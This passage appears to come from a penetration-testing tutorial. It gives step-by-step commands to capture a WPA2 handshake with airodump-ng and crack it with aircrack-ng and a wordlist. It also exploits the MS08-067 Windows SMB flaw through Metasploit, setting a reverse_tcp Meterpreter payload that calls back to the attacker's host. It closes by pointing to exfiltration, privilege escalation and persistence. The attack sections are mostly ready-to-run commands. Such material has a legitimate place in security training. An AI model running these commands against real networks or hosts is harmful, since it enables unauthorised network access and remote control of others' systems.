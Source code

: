   ```bash
   airodump-ng --bssid <target-AP-MAC> -c <channel> --write handshake wlan0mon
   ```

   - `--bssid`: The MAC address of the target access point.
   - `-c`: The channel the target access point is operating on.
   - `--write handshake`: Save the captured handshake to a file.

2. **Crack WPA2 Password**: Once the handshake is captured, use **Aircrack-ng** to crack the password with a wordlist.

   ```bash
   aircrack-ng handshake.cap -w /path/to/wordlist.txt
   ```

3. **Result**: If the password is found in the wordlist, Aircrack-ng will display it. The WPA2 key will allow access to the wireless network.

---

### **4. Exploiting Vulnerabilities**

Penetration testers often exploit identified vulnerabilities to gain access to systems.

#### **Example: Exploiting a Vulnerable Service with Metasploit**

**Goal**: Exploit a known vulnerability in a service (e.g., **MS08-067**, a vulnerability in Microsoft Windows SMB) using **Metasploit**.

**Steps**:
1. **Search for Exploit**: Open **Metasploit** and search for the exploit for the MS08-067 vulnerability.

   ```bash
   search ms08_067
   ```

2. **Use the Exploit**: Once the exploit is found, configure it with the target’s IP address.

   ```bash
   use exploit/windows/smb/ms08_067_netapi
   set RHOST 192.168.1.100
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST 192.168.1.10
   exploit
   ```

   - `RHOST`: The target system’s IP address.
   - `LHOST`: Your local IP address to receive the reverse connection.

3. **Access the Target**: If successful, Metasploit will establish a **Meterpreter** session, allowing you to execute commands and control the target system.

4. **Result**: You gain access to the target system and can conduct further activities, such as data exfiltration, privilege escalation, or maintaining persistence.

---
